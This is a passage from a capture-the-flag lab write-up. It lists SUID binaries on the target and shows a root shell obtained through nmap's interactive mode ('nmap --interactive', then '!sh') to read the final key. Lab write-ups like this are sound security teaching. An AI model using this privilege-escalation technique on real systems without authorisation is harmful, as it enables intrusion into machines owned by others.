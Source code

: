 ````commandline
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
````

So `nmap` has the `SUID` bit set on. Looked on the [GTFOBins about nmap](https://gtfobins.github.io/gtfobins/nmap/), which gave the golden tip on how to get a shell with `nmap`.

````commandline
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-3.txt
cat key-3-3.txt
cat: key-3-3.txt: No such file or directory
# cat key-3-of-3.txt
cat key-3-of-3.txt
04*****ef27c3dee1ee161b2*****4e4
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)

